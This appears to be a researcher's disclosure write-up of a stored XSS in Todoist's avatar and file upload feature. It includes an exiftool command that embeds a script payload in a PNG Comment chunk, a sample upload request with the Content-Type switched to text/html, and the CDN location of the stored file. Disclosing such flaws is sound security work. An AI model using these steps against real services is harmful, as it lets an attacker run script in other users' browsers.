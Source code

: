 # Todoist App v8484 Stored XSS
I discovered a Stored XSS vulnerability on Todoist's platform through the avatar upload feature
Unrestricted file uploads allowing crafted image files,

    Lack of server-side MIME type verification, and

    Improper sanitization of image metadata (PNG tEXt chunk - Comment field).

This allows an attacker to upload a PNG file that executes arbitrary JavaScript when rendered, leading to stored XSS.

 PoC Technical Details

    Vulnerability Location:

        https://app.todoist.com/app/project/

        https://app.todoist.com/app/task/

    Attack Method:

        A PNG image is created and injected with a script payload into the Comment field using exiftool.
    Exiftool Command:

exiftool -Comment='"><script>alert(prompt("XSS BY Sencer Kilic & Berat Aksit"))</script>' pngtoxss.png 


<img width="750" height="54" alt="1" src="https://github.com/user-attachments/assets/c31c94a9-244e-428d-ad2d-d88f0926fa42" />



    This creates a malicious metadata chunk:

tEXtComment"><script>alert(prompt("XSS BY Sencer Kilic & Berat Aksit"))</script>

<img width="796" height="327" alt="2" src="https://github.com/user-attachments/assets/a6e0fc8a-da12-415f-9829-f526b36524f0" />



    The PNG is then uploaded via the avatar or file upload function.

Content-Type Override:

    During upload, using Burp Suite, the Content-Type header of the file is changed:

        From: image/png

        To: text/html

Request Sample:

POST /api/v1/uploads HTTP/2
Host: app.todoist.com
Content-Type: multipart/form-data; boundary=...
...
Content-Disposition: form-data; name="file"; filename="pngtoxss.png"
Content-Type: text/html

<img width="950" height="466" alt="2" src="https://github.com/user-attachments/assets/e2170ba6-3f24-4d64-ab6f-cfaa5ebe41f7" />

<img width="783" height="428" alt="3" src="https://github.com/user-attachments/assets/cd344eef-d74b-4a4f-aa13-93b4a34ae577" />

<img width="954" height="491" alt="5" src="https://github.com/user-attachments/assets/1f191fdd-6fad-4afc-aad4-6ef8b84f11b1" />


Result:
The file is successfully uploaded and stored on cloudfront.net 

CDN:

   https://d1ysz50cxb9zwl.cloudfront.net/.../file.png

  https://d1ysz50cxb9zwl.cloudfront.net/Hqrm6dtqk-uJQqsDlBsHlaXJGVfNsdSWndNtYEhynhPp75G4kI4Gvo6ZyPeL6Zce/by/54863037/as/file.png?Expires=1753944966&Signature=SSZgohwHkdjD9vC7CHs03rYFR5OLwnBGgXk2ciwXdMVkeRH2BEspYiHSI1RgJIWc9amiPnbvIO2u7BFFBvnfDTuhTisfmOYAQRo8OsGFGDe0KSeOqCr8eH9H7JQtvxreko0ih4diqURD8WCt4man6Vka0AMGs59s-n68P~4x~TYIGfeuUPgQY-CX8tcRdSE0NrWLHL6Of7w02jWA2Nk1giZt~~CStwGdO3diFxS5lYorZ7lkvnCe~9VObDdASogr-2YKDamVvqtORqwAwpibyxoTKvw00lVLLJDqqT9yRC~jIkJksqWhkfbuqF3iYJh4g5BkHK1ML-EGlTCLqMk-9Q__&Key-Pair-Id=APKAJAERRT46LD6FN4NA

  
   <img width="952" height="428" alt="3" src="https://github.com/user-attachments/assets/e05452c5-1c8f-4a30-8be3-e8bb3a3e6fe2" />



    When previewed or rendered, the embedded JavaScript executes due to improper sanitization and MIME type handling.
